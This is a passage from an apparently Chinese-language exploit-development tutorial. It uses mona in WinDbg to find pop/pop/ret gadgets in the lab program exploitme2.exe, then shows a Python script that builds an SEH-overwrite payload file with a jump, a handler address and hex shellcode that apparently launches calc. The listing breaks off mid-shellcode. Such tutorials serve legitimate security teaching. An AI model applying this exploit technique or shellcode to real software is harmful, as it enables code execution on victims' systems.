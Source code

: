 现在让我们在exploitme2.exe中找到`pop/pop/ret`序列：

```
0:000> !py mona findwild -s "pop r32#pop r32#ret" -m exploitme2.exe
Hold on...
[+] Command used:
!py mona.py findwild -s pop r32#pop r32#ret -m exploitme2.exe    

---------- Mona command started on 2015-03-19 00:53:54 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
    - Pointer access level : X
    - Only querying modules exploitme2.exe
[+] Type of search: str
[+] Searching for matches up to 8 instructions deep
[+] Generating module info table, hang on...
    - Processing modules
    - Done. Let's rock 'n roll.
[+] Started search (8 start patterns)
[+] Searching startpattern between 0x00e90000 and 0x00e96000
[+] Preparing output file 'findwild.txt'
    - (Re)setting logfile findwild.txt
[+] Writing results to findwild.txt
    - Number of pointers of type 'pop eax # pop esi # retn' : 1
    - Number of pointers of type 'pop ecx # pop ecx # retn' : 1
    - Number of pointers of type 'pop edi # pop esi # retn' : 2
    - Number of pointers of type 'pop ecx # pop ebp # retn' : 1
    - Number of pointers of type 'pop ebx # pop ebp # retn' : 1
[+] Results :
0x00e91802 |   0x00e91802 (b+0x00001802)  : pop eax # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e9152f |   0x00e9152f (b+0x0000152f)  : pop ecx # pop ecx # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e918e7 |   0x00e918e7 (b+0x000018e7)  : pop edi # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e91907 |   0x00e91907 (b+0x00001907)  : pop edi # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e9112b |   0x00e9112b (b+0x0000112b)  : pop ecx # pop ebp # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e91630 |   0x00e91630 (b+0x00001630)  : pop ebx # pop ebp # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
    Found a total of 6 pointers    

[+] This mona.py action took 0:00:00.170000 

```

我们将使用第一个地址：0x00e91802.

这是已更新的Python脚本：

```
with open('c:\\name.dat', 'wb') as f:
    jmp = '\xeb\x06\x90\x90'
    handler = '\x02\x18\xe9\x00'
    shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
            "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
            "\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
            "\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
            "\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
            "\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
            "\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
            "\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
            "\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
            "\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
            "\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
            "\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
```